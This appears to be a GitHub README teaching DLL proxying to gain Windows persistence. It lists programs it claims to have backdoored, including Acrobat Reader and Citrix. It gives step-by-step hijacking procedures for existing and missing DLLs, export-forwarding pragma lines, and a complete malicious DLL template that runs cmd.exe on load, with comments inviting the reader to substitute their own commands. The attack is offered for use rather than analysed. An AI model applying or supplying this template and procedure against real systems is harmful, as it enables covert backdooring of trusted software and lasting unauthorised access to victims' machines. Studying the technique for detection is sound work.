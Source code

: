 # DLL Proxying
This README file will cover two techniques to perform DLL Proxying.

[This article](https://www.ired.team/offensive-security/persistence/dll-proxying-for-persistence) gives more details about the concept of DLL Proxying.

## List of successfully backdoored programs (so far)

Program Name | DLL
-------------| ----
Lightshot | DXGIODScreenshot.dll
Acrobat Reader | BIB.dll
Hamachi Service | LMIGuardianDll.dll
ManyCam | P7x32.dll
Citrix | ctxmui.dll

## DLL Proxying & Persistence concept
The goal is to use programs that automatically run on startup.

There are two techniques, generally if the first one fails you will want to try the other one.

The two common steps for both techniques are :
1. Find the program that fits your needs for persistence
2. List DLLs used by this program (with Procmon)

### **Technique 1**

Technique 1 is based on the idea that the DLL exists, and is loaded by the program. 

In Procmon, you can check this with the **Result** column being set to **SUCCESS**.

3. Once you picked your working DLL, use a tool such as DLLExportViewer to export the legit DLL's functions 

(or use my script to automate this step and step 4)

4. Write the pragma comment linkers from the exported functions for you to implement into your malicious DLL

It should look like :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
```

5. Create your DLL with the code that you want to execute, here's an example :

```C
#pragma once

// Add the generated comments here
// # pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
// .....
#include <windows.h>

DWORD WINAPI payload() {
	STARTUPINFOA info = { 0 };

	PROCESS_INFORMATION processInfo = { 0 };

	LPSTR arguments = (char*)" /c notepad"; // This is not necessary. It's just an argument example for you to use with your own commands

	if (CreateProcessA("C:\\Windows\\System32\\cmd.exe", arguments, NULL, NULL, TRUE, 0, NULL, NULL, &info, &processInfo)) {
		WaitForSingleObject(processInfo.hProcess, INFINITE);
		CloseHandle(processInfo.hProcess);
		CloseHandle(processInfo.hThread);
	}
	return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		payload();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

6. Name your DLL with the original legitimate DLL name (without the \_orig), and place it in the same folder.
7. Start the program and see if it worked.

### **Technique 2**

Technique 2 is based on the idea that the DLL doesn't exist where the program calls it. 

In Procmon, you can check this with the **Result** column being set to **NAME NOT FOUND**.

Using Procmon, you should also check if the **Path** column matches with the location of the installation folder of the program

3. Look for the DLL inside the System32 folder
4. Generate the pragma comment linkers from that DLL, but this time for the function name, specify entire path like such :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=C:\\Windows\\System32\\FILENAME.dll.FUNCTION_NAME,@ORDINAL")
```
In my script you can use the `--system32` option to do it automatically.

6. Add the generated comments to your malicious DLL and build it
7. Place the DLL within the folder specified by the **Path** column on Procmon (where the DLL wasn't found)
8. Be sure names match (case sensitive)
9. Start the program and see if it worked

## Consequences

Now everytime the program is going to run, assuming you have chosen a correct DLL and that your own DLL is working, it is going to call your malicious DLL, and will continue to owrk since your DLL exports all the same functions that the legit DLL exports.

Since it is a program that is ran on startup, your DLL will be called on startup and persistence is achieved.


### Troubleshoot
There are two main problems that can occur with this technique:
1. The program didn't start properly or crashed
2. The program started but nothing happened

For both case, it means that you picked the wrong DLL, and that you have to try with another one.
